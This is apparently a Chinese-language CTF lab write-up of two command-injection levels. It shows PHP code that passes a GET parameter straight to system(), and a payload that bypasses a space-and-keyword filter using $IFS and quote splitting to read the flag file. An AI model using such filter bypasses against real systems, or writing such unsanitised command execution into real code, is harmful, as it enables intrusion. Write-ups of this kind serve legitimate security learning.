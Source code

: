 ## <font style="color:#000000;">（八）</font><font style="color:#000000;">[RCE-labs]Level 7 - 空格过滤</font>
<font style="color:#000000;">打开靶场发现以下内容，是PHP代码</font>

## ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737130554364-714b2bbc-b979-4439-a401-b07301a098a0.png)
```php
<?php
function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

<font style="color:#000000;">这次又变成了绕过空格</font>

<font style="color:#000000;">题目上给的提示有$IFS可以代表空格</font>

<font style="color:#000000;">所以构造playload</font>

```plain
?cmd=cat$IFS/fl''ag
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737130789222-99f02fff-6a45-4ba8-90e7-0f165eb99d4c.png)

## <font style="color:#000000;">（九）</font><font style="color:#000000;">[RCE-labs]Level 8 - 文件描述和重定向</font>
![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737130925697-9bcc61fa-32f2-4a6b-8455-345c8a3d737f.png)

<font style="color:#000000;">看了提示：/dev/null 是一个特殊的文件，写入到它的内容都会被丢弃；如果尝试从该文件读取内容，那么什么也读不到，并且/dev/null 将不会有任何回显，但会回显错误，加上 2>&1 后连错误也会被屏蔽掉</font>

<font style="color:#000000;">PHP代码如下:</font>

```php
<?php 
function hello_shell($cmd){
    /*>/dev/null 将不会有任何回显，但会回显错误，加上 2>&1 后连错误也会被屏蔽掉*/
    system($cmd.">/dev/null 2>&1");
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```
